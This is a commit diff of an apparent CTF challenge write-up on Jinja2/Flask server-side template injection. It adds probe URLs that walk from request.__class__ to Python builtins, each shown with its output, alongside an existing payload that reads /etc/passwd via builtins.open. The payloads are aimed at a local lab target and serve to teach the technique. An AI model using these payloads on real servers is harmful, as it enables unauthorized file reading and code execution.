

Before and after one commit to poorvi1910/Web, a Markdown page: challenges/SSTI_payload_creation_chall.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/challenges/SSTI_payload_creation_chall.md
+++ b/challenges/SSTI_payload_creation_chall.md
@@ -57,11 +57,20 @@ http://127.0.0.1:5000/?c={{%20(dict.mro()[-1]|attr(%22\x5f\x5fsubclasses\x5f\x5f
 
 - Read a local file
 
+```http://127.0.0.1:5000/?c={{%20request.__class__}}``` : ```<class 'flask.wrappers.Request'>```
+
+```http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data}}``` : ```<function Request._load_form_data at 0x7facac724680>```
+
+```http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data.__globals__}}``` : ```{'__name__': 'flask.wrappers', '__doc__': None, '__package__': 'flask', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7facac720f90>...```
+
+```http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data.__globals__.__builtins__}}``` : ```{'__name__': 'builtins', '__doc__': "Built-in functions, types, exceptions, and other objects.\n\nThis module provides direct access to all 'built-in'\nidentifiers of Python...```
 
 PAYLOAD:
 ```
 http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data.__globals__.__builtins__.open(%22/etc/passwd%22).read()%20}}
 ```
+![image](https://github.com/poorvi1910/Web/assets/146640913/dba77ed3-b558-41bc-8740-12d3d668d256)
+
 
 - Run a command
 
````
